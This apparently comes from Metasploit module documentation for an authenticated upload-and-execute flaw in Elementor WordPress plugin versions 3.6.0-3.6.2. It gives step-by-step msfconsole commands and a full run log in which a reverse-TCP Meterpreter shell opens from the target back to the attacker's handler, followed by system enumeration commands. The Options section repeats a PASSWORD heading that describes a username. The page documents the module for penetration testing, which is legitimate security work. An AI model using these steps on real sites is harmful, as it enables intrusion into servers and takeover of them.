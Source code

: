 ## Vulnerable Application

The WordPress plugin Elementor versions 3.6.0 - 3.6.2, inclusive have a vulnerability
that allows any authenticated user to upload and execute any PHP file. This is achieved
by sending a request to install Elementor Pro from a user supplied zip file.
Any user with Subscriber or more permissions is able to execute this.

Tested against Elementor 3.6.1

### Plugin

Can be downloaded from https://wordpress.org/plugins/elementor/advanced/

## Verification Steps


1. Install the plugin, no configuration is required, just hit skip.
2. Start msfconsole
3. Do: `use exploits/multi/http/wp_plugin_elementor_auth_upload_rce`
4. Do: `set username [username]`
5. Do: `set password [password]`
6. Do: `set rhosts [ip]`
7. Do: `run`
8. You should get a shell.

## Options

### PASSWORD

The username for a user with subscriber or higher privileges

### PASSWORD

The username for a user with subscriber or higher privileges

## Scenarios


### Elementor 3.6.1 on Wordpress 5.7.7 on Ubuntu 20.04

```
resource (elementor.rb)> use exploits/multi/http/wp_plugin_elementor_auth_upload_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (elementor.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (elementor.rb)> set username user
username => user
resource (elementor.rb)> set password user
password => user
resource (elementor.rb)> set verbose true
verbose => true
msf6 exploit(multi/http/wp_plugin_elementor_auth_upload_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/elementor/readme.txt
[*] Found version 3.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Looking for nonce
[+] Nonce: cfb42a92ae
[*] Uploading upgrade payload and activating...
[*] Payload file name: elementor-pro.php
[*] Sending stage (39927 bytes) to 2.2.2.2
[+] Deleted ../wp-content/plugins/elementor-pro
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:33052) at 2022-10-02 15:56:35 -0400
[+] Payload Uploaded Successfully

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-104-generic #118-Ubuntu SMP Wed Mar 2 19:02:41 UTC 2022 x86_64
Meterpreter : php/linux
```
